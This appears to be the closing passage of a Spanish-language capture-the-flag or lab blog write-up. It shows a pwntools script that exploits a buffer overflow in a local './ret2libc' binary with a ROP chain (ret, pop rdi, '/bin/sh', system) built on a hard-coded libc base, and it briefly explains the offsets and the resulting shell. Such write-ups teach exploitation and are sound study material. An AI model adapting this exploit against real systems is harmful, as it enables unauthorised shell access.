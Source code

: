 ```
```python
from pwn import *

p = process("./ret2libc") 

libc = 0x7ffff7c00000
pop_rdi = 0x0000000000029835
bin_sh = 0x1bb26a
system = 0x000000000004ba40
ret = 0x0000000000102ea4

payload = b"A" * 72
payload += p64(libc + ret) 
payload += p64(libc + pop_rdi)
payload += p64(libc + bin_sh)
payload += p64(libc + system)

p.sendline(payload)
p.interactive()
```

Se pueden dar cuenta que se esta sumando la direccion de libc con los offsets de pop rdi, bin/sh, system, y ret, esto es para que nos saque la direccion real, tambien usamos "p64" para transformar esas direcciones a little endian de 64 bits, ahora ejecutamos y vemos como obtuvimos una shell

![](/assets/img/ret2libc/pwn.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/ret2libc/waifu.png)